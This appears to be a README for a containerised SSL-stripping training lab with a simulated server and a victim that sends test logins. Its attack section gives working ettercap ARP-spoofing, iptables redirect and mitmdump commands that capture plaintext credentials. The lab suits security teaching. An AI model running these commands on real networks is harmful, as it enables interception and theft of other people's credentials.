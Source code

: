 # Server-Victim SSL Stripping Lab

This directory contains a complete automated SSL stripping lab environment with:

- **Ubuntu Server** (172.20.0.10) - Runs BlueLedger automatically
- **Debian Victim** (172.20.0.20) - Auto-discovers server and simulates login attempts

## 🚀 Quick Start

```bash
# From the server_victim directory - ONE COMMAND DOES EVERYTHING!
docker-compose up --build

# Watch the magic happen:
# 1. Network auto-configuration detects your host network settings
# 2. Ubuntu server starts and runs BlueLedger automatically  
# 3. Debian victim discovers the server IP via network scanning
# 4. Victim starts sending login attempts every 30 seconds
```

## 🌐 Network Configuration (100% Automatic)

- **Macvlan Network**: Containers get real IPs on your host network via DHCP
- **Auto-Detection**: Network settings detected automatically from host
- **IP Assignment**: DHCP from your router (last 8 IPs of your subnet)
- **Direct Access**: Containers appear as separate physical devices

### No Manual Configuration Required!
The `network-setup` service automatically:
1. **Detects network interface** (eth0, ens18, etc.)
2. **Finds gateway and subnet** from host routing table
3. **Reserves IP range** (e.g., 192.168.1.248-255 for containers)
4. **Creates .env file** with all network variables

## 🎯 How It Works

### Ubuntu Server Container
- Clones/copies BlueLedger repository
- Auto-generates SSL certificates
- Starts Docker daemon inside container
- Runs `docker-compose up` to start BlueLedger
- Exposes ports 3000, 5000, 5001, 27017

### Debian Victim Container  
- Auto-discovers BlueLedger server by IP scanning
- Sends realistic login attempts every 30 seconds
- Uses credentials: `Employee@sinamoa.com / Employee123!@#`
- Randomizes User-Agent and timing for realism

## 🔓 SSL Stripping Attack

Once containers are running, perform SSL stripping from host:

### Method 1: MITMdump (Recommended)
```bash
# Terminal 1: Start traffic capture
sudo mitmdump --mode transparent --ssl-insecure --showhost --set flow_detail=3

# Terminal 2: ARP spoof the victim
sudo ettercap -T -M arp:remote /172.20.0.20// /172.20.0.1//

# Terminal 3: Redirect HTTPS to mitmdump
sudo iptables -t nat -A PREROUTING -s 172.20.0.20 -p tcp --dport 443 -j REDIRECT --to-port 8080
sudo iptables -t nat -A PREROUTING -s 172.20.0.20 -p tcp --dport 5001 -j REDIRECT --to-port 8080
```

### Method 2: MITMproxy Web UI
```bash
# Start web interface
sudo mitmweb --mode transparent --ssl-insecure --web-host 0.0.0.0

# Same ARP spoofing and iptables rules as above
# View results at http://localhost:8081
```

## 📋 Expected Results

- **Victim logs**: Shows 200 responses (login appears successful)
- **MITMdump**: Shows "TLS handshake failed" then plaintext credentials
- **Captured data**: `{"email":"Employee@sinamoa.com","password":"Employee123!@#"}`

## 🛠 Customization

### Change Victim Timing
Edit `debian_victim/Dockerfile` and modify the sleep interval:
```python
wait_time = random.randint(25, 35)  # 25-35 seconds
```

### Use Different Network
Edit `docker-compose.yml` network configuration:
```yaml
networks:
  lab_network:
    ipam:
      config:
        - subnet: 192.168.100.0/24  # Change subnet
```

### Manual Target IP
Set environment variable to skip auto-discovery:
```yaml
environment:
  - TARGET_SERVER_IP=192.168.1.100  # Manual IP
```

## 🧹 Cleanup

```bash
# Stop containers
docker-compose down

# Remove containers and networks
docker-compose down --volumes --remove-orphans

# Clean up iptables rules
sudo iptables -t nat -F
```

## 🔧 Troubleshooting

### Server Won't Start
- Check Docker daemon is running on host
- Ensure ports 3000, 5000, 5001, 27017 aren't in use
- Check MongoDB AVX requirements (set VM CPU to "host" in Proxmox)

### Victim Can't Find Server
- Check container networking: `docker network ls`
- Verify server is healthy: `curl -k https://172.20.0.10:5001/health`
- Check container logs: `docker-compose logs debian_victim`

### SSL Stripping Not Working
- Verify IP forwarding: `echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward`
- Check iptables rules: `sudo iptables -t nat -L -n`
- Confirm ARP spoofing: `sudo ettercap -T -L` (list active spoofing)

## 📚 Educational Use

This lab demonstrates:
- SSL downgrade attack vectors
- Automated victim simulation
- Container networking and isolation
- Man-in-the-middle positioning
- Real-world credential capture scenarios

Perfect for cybersecurity education and defensive research!